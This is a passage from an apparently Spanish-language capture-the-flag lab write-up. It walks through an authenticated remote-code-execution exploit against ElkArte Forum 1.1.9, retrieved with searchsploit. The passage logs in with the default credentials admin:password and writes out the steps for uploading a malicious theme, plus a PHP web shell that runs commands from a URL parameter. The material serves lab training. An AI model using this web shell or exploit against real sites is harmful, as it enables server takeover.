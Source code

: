 Vamos a copiarlo en nuestro directorio de trabajo:
```bash
searchsploit -m php/webapps/52026.txt
  Exploit: ElkArte Forum 1.1.9 - Remote Code Execution (RCE) (Authenticated)
      URL: https://www.exploit-db.com/exploits/52026
     Path: /usr/share/exploitdb/exploits/php/webapps/52026.txt
    Codes: N/A
 Verified: False
File Type: ASCII text
```
Analicemos el Exploit.

Observa lo siguiente:
```bash
1) After login go to Manage and Install theme > https://127.0.0.1/ElkArte/index.php?action=admin;area=theme;sa=admin;c2e3e39a0d=276c2e3e39a0d65W2qg1voAFfX1yNc5m
2) Upload test.zip file and click install > test.zip > test.php > <?php echo system('id'); ?>
3) Go to Theme Setting > Theme Directory > https://127.0.0.1/ElkArte/themes/test/test.php
```
Tenemos 3 pasos a seguir para que podamos subir una **WebShell de PHP**.

Apliquémoslo.

Primero, podemos utilizar credenciales por defecto contra el usuario **admin**, siendo que descubrimos que su contraseña es **password**:

<p align="center">
<img src="/assets/images/THL-writeup-papaya/Captura6.png">
</p>

Estamos dentro. Recuerda que las credenciales son: **admin:password**.

Creamos la **WebShell de PHP**:
```php
<?php
        system($_GET['cmd']);
?>
```
